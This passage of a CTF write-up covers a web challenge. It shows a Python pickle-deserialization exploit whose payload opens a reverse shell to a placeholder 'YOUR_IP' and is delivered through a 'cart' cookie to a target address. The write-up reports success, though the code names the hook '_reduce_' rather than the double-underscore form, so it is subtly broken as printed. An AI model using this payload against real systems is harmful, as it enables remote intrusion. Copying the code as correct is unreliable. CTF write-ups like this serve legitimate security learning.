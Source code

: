 ![18](../assets/posts/HackHavocCTF/18.png)

But this was actually a false positive as it had issues with the bank.

Luckily I got a droplet in Digital Ocean from `H7CTF` .

Now we craft our exploit for RCE.

```python
import pickle, os, base64
import requests
from base64 import b64encode

class CommandExecution(object):
    def _reduce_(self):
        return (os.system, ("python3 -c 'import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\"YOUR_IP\", 3000)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); subprocess.call([\"/bin/bash\", \"-i\"])'",))

def create_payload():
    item = [{'item_id': 'ls', 'item_name': CommandExecution(), 'item_price': 'Rs. 4'}]
    serialized_data = pickle.dumps(item)
    encoded_data = b64encode(serialized_data).decode()
    return encoded_data

def send_request(encoded_payload):
    target_url = 'http://35.208.230.20/view'
    cookies = {
        'cart': encoded_payload
    }
    response = requests.get(target_url, cookies=cookies)
    return response.text

def main():
    payload = create_payload()
    print(f'[*] Payload: {payload}')
    result = send_request(payload)
    print('[*] Request result:')
    print(result)

main()

```

Running the exploit, it pops a shell BOOM.
